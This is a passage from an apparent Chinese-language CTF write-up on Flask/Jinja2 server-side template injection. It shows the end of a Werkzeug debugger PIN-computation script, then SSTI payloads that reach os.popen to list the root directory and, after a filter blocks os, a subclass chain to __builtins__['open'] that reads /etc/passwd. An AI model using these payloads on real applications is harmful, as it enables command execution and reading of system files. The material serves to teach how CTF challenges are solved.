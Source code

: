 ```

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

4.反正总而言之还是要去读文件里面的内容，开始构造 payload，首先{{config}}看看有木有什么有用，没有啥有用的方法（因为之前碰到过一道题就是直接用的 config 里面的方法），因为毕竟是 python 的框架，而在 python 中一切皆对象，而 object 类是 python 中所有类的基类，定义一个类时，没指定继承哪个类，则默认继承 object 类,ssti 大部分都是依靠基类->子类->危险函数来利用，就是说如果获得了 object 这个类，就相当是从根本出发，可以去调用任何想调用的方法，这个就和 linux 的相对路径与绝对路径有着类似之处，但这个题我还是和往常一样，先是查看了一下 object 的所有方法，用到的具体命令如下（如果这个看不懂，可以先去看一下我的博客关于 SSTI 模板注入的那篇文章，或者对 python 有深入理解的，一样可以看的懂，这里唠叨一句哈哈哈哈）

```
{{config.__class__.__init__.__globals__}}
```

然后是真的看到了 os（就是一个方法）

![](屏幕截图-2023-09-12-174121-1024x834.png)

（上图我保证是有 os 的，好像没截全哈哈哈哈）然后接下来就想着构造一个 payload 去读文件去获得上面那些值，然后就可以通过 python 脚本去跑出 pin，下面是具体的 payload

```
{{ config.__class__.__init__.__globals__['os'].popen('ls /').read() }}
```

结果发个 nonono，又经过几次测试确定了确实是 os 被过滤了，那就得换思路了，直接从根本出发，直接先得到 object 这个类（这里我就直接给 payload 了，相信大家看完那篇文章一定可以看懂这个 payload，主要这题是加解密绕了一下，不然直接上脚本跑，md，试了好多次才出想要的方法）

这个是第一个 payload

```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__}}

上面这个用完就可以得到一堆方法，里面有个open没有被过滤，可以选择用这个去读取一个文件
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}
```

这个是第二个 payload
